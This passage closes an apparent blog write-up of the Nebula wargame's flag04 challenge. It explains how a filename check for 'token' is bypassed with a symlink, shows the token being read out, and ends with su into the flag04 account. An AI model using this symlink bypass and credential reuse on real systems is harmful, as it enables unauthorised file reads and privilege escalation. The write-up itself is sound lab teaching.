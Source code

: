 The problem with the program as it's defined above is the following line of code.

{% highlight c %}
...
// strstr is used to locate a sub-string, 
// so we can't provide an absolute path to fool the program with.
if(strstr(argv[1], "token") != NULL) {
...
// We actually need read privileges on the file provided through args
// otherwise, things will blow up when we check fd for -1
fd = open(argv[1], O_RDONLY);
...	
{% endhighlight %}

And that's the crux of the problem we're faced with. Unable to access
the file & on a train heading to frowntown, all aboard.

**Unless**, there's a way of referencing the token-file without it's
name & somehow having read privileges on it.

What about links? We can create a link to reference the token-file &
provided we don't name it token, we should be OK, since we do have
read-access to the link-file itself.

{% highlight sh %}
$ ln -s /home/flag04/token /tmp/lol
$ /home/flag04/flag04 /tmp/lol
06508b5e-8909-4f38-b630-fdb148a848a2
$ # Let's try authenticating as flag04 using that UUID as password
$ su - flag04
Password:
flag04@nebula:~ $ # YAY!
flag04@nebula:~ $ getflag
You have successfully executed getflag on a target account
{% endhighlight %}

Boom goes the dynamite!

**Thank you for reading this post** on the first 5 challenges in the
nebula exploit series, I hope my ramblings were bearable!

